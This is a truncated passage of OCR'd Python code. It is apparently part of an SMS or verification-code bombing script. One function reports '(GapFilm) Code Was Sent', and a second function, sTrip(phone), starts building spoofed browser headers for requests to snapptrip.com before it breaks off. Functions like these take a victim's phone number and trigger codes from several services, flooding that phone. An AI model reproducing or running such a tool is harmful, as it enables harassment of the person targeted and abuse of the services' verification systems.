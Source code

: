         if gaR['Code'] == 1:
            print(f'{g}(GapFilm) {w}Code Was Sent')
            return True
    except:
        pass
def sTrip(phone):
    sTripH = {"Host": "www.snapptrip.com","User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0","Accept": "*/*","Accept-Language": "fa","Accept-Encoding": "gzip, deflate, br","Content-Type": "application/json; charset=utf-8","lang": "fa","X-Requested-With": "XMLHttpRequest","Content-Length": "134","Origin": "https://www.snapptrip.com","Connection": "keep-alive","Referer": "https://www.snapptrip.com/","Cookie": "ffdd
